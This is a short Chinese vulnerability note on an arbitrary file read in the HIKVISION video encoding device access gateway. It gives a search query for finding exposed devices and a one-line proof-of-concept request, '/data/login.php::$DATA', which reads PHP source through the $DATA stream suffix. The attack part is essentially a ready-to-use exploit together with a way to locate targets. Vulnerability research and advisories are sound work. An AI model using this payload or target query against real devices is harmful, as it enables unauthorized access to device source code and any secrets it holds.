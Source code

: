 # 

# HIKVISION 视频编码设备接入网关 $DATA 任意文件读取

## 漏洞描述

HIKVISION 视频编码设备接入网关存在配置错误特性，特殊后缀请求php文件可读取源码

## 漏洞影响

```
HIKVISION 视频编码设备接入网关
```

## 网络测绘

```
title="视频编码设备接入网关"
```

## 漏洞复现

登陆页面

![image-20220519174129368](./images/202205191741462.png)

POC

```
/data/login.php::$DATA
```

![image-20220519174235421](./images/202205191742487.png)
